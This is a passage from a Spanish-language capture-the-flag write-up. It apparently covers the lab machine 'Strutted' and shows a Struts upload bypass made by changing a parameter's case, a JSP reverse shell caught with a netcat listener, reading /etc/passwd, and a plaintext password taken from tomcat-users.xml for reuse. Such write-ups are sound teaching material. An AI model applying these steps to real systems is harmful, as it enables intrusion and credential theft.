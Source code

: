 Realizaré otro intento pero el parámetro name="upload" lo cambiaré a name="Upload" para confundir el proceso de vinculación de parámetros, consigo con exito que se suba mi archivo de texto.

![imagen](https://github.com/user-attachments/assets/a4c8ac0d-f0a4-4c1a-a4f3-0506e7a1ebb9)

![imagen](https://github.com/user-attachments/assets/8317c1cc-a728-45bf-8ad5-9bc6b9c358f6)

Me dirijo al navegador e introduzco la URL pudiendo observar mi archivo de texto subido.

![imagen](https://github.com/user-attachments/assets/0637c8e1-09e0-4fc1-940f-e68f624d790f)

Utilizo netcat para iniciar un listener por el puerto 4444 y obtener una reverse shell

```bash
nc -lvnp 4444
listening on [any] 4444 ...
```

Realizo el mismo proceso, pero ahora cargo una reverse shell en jsp en vez de un archivo de texto

![imagen](https://github.com/user-attachments/assets/40c78087-5bb7-41bb-8737-e3475fc03886)

Accedo y consigo ganar acceso al sistema como el usuario tomcat

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.194] from (UNKNOWN) [10.10.11.59] 33976
whoami
tomcat
```

## Post exploitation

### User Pivoting

Obtengo acceso al sistema como el usuario tomcat, este es un usuario con bajo privilegios por lo que debo de buscar alguna manera de pivotar hacia otro usuario. Comenzaré visualizando cuales son los usuarios que existen en el sistema.

```bash
tomcat@strutted:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
```

Revisando los directorios encuentro en /var/lib/tomcat9/conf un archivo tomcat-users.xml el cual contiene una contraseña, podría probar a autenticarme por ssh con la misma.

```bash
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
```
